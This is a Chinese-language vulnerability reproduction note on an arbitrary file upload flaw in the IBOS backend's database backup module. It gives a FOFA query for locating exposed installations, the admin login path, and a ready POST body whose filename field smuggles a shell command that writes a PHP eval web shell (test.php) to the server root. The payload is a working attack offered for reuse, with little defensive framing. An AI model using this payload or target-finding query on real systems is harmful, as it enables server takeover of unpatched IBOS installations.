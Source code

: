 # IBOS 数据库模块 后台任意文件上传漏洞

## 漏洞描述

IBOS 后台数据库模块 存在任意文件上传漏洞，攻击者进入后台后可以上传恶意文件控制服务器

## 漏洞影响

```
IBOS < 4.5.5
```

## FOFA

```
body="IBOS" && body="login-panel"
```

## 漏洞复现

登录页面

```plain
http://xxx.xxx.xxx.xxx/?r=dashboard/default/login
```



找到数据库备份模块



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091853548.png)



提交并抓包



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091853668.png)



修改filename参数发送包会上传test.php文件到根目录



```plain
backuptype=all&custom_enabled=1&method=shell&sizelimit=2048&extendins=0&sqlcompat=MYSQL41&sqlcharset=utf8&usehex=0&usezip=0&filename=peiqi%26echo "<?php eval($_REQUEST[test]);?>">test%PATHEXT:~0,1%php%26test&dbSubmit=1
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091854875.png)